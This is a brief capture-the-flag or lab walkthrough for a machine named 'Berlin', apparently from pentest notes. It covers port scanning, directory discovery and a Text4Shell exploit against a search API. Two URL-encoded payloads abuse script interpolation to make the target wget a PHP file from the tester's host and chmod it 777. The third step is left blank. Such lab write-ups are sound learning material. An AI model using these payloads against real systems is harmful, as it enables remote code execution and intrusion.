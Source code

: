 # Berlin

I start off by scanning for open ports:

<figure><img src="../../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

So first i go and see on port 8080 there is a api, i discover page search trhough dirb:

<figure><img src="../../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

test4shell:

```
#step 1
%2Fsearch%3Fquery%3D%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27wget%20192.168.45.226%2Fmonkey.php%20-O%20%2Ftmp%2Fmonkey.php%27%29%7D

#step 2
%2Fsearch%3Fquery%3D%24{script%3Ajavascript%3Ajava.lang.Runtime.getRuntime().exec('chmod 777 %2Ftmp%2Fmonkey.php')}

#step 3

```
